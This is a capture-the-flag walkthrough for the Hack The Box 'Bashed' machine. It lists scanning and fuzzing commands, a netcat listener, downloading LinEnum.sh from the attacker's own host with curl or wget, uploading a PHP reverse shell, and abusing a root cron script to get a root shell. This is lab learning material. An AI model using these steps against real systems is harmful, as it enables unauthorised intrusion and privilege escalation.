 # Bashed
* Link: https://app.hackthebox.com/machines/Bashed
* Type: Linux
* Difficulty: Easy

## Commands Used
* *nmap -sC -sV -oA DIR IPADDRESS* - Nmap scan.
* *gobuster -u IPADDRESS -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt* - Fuzz directories
* *python3 -m SimpleHTTPServer PORTNUMBER* - Start a hosted webserver to upload things to target.
* *nc -lvnp PORTNUMBER* - Starts a listener on your machine.
* */usr/share/laudanum* - List of Shells
* *python -c 'import pty;pty.spawn("/bin/bash")'* - Runs a bash
* *sudo -u USERNAME bash* - Switch to the new user provided

## Steps
* Start by checking the open ports using nmap (nmap -sC -sV -oA DIR IPADDRESS)
* Start Fuzzing Directories (gobuster -u IPADDRESS -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt)
* Find */dev*
* In */dev* there is a shell.
* Since the server is linux, use *LinEnum.sh* to enum the linux machine.
* To upload the *LinEnum.sh* open a webserver in your linux machine (python3 -m SimpleHTTPServer PORTNUMBER).
* Then use *curl* or *wget* YOURIPADDRESS:PORTNUMBER/FILENAME to upload the file to the target.
* If permission is denied go to */dev/shm/* It's a directory that stores files in memory and not the disk so it can bypass permission denied.
* *bash LinEnum.sh* and wait for output.
* This shell is not persistent, to make it persistent use a reverse shell.
* *https://pentestmonkey.net/ is a good resource for shells.*
* Upload the reverse php shell into the uploads folder and then open it.
* use *python -c 'import pty;pty.spawn("/bin/bash")'* to run a bash.
* Use *sudo -u USERNAME bash* to switch to the scriptmanager user.
* Use test.py in the folder scripts which is run automatically every minute to run a python shell. (https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* User flag is in *home/arrexel*.
* Root flag is in *root*. (Accessible using the python shell)
